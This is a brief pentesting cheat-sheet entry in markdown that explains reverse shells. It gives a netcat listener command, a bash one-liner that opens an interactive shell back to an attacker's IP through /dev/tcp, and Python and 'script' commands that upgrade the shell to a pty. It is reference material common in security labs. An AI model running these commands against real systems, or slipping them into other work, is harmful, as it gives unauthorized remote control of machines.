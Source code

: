 - ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  #### Local Machine
  ```bash
  nc -lvnp ${PORT}
  ```
  
  #### Remove Machine
  ```bash
  bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
  ```
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal.
  Useful when doing a Reverse Shell.

  ```bash
  script /dev/null -c bash
  ```
  or
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```  
